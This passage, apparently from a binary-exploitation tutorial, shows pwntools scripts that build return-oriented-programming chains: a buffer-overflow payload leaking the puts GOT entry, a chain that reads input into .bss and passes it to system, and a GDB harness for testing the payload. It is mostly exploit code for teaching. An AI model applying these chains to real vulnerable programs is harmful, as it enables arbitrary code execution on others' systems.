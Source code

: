 ```python
    return payload
```

## ROP Chain Automation

### Using pwntools ROP class

```python
#!/usr/bin/env python3
from pwn import *

def automated_rop():
    context.arch = 'amd64'
    elf = ELF('./target')
    rop = ROP(elf)
    
    # Automatic ROP chain generation
    rop.call('puts', [elf.got['puts']])
    rop.call('main', [])
    
    print(rop.dump())
    
    # Get the chain
    payload = b'A' * 72 + rop.chain()
    
    return payload

def complex_automated_rop():
    """More complex automated ROP"""
    elf = ELF('./target')
    libc = ELF('./libc.so.6')
    rop = ROP([elf, libc])
    
    # Build complex chain
    rop.read(0, elf.bss(), 8)      # Read input
    rop.system(elf.bss())          # Execute input
    
    print(rop.dump())
    return rop.chain()
```

## ROP Debugging and Testing

### Debugging ROP Chains

```python
#!/usr/bin/env python3
from pwn import *

def debug_rop_chain():
    context.terminal = ['tmux', 'splitw', '-h']
    
    # Start with GDB
    p = gdb.debug('./target', '''
        set disassembly-flavor intel
        break *0x400743
        continue
    ''')
    
    # Build and send ROP chain
    chain = build_rop_chain()
    payload = b'A' * 72 + chain
    
```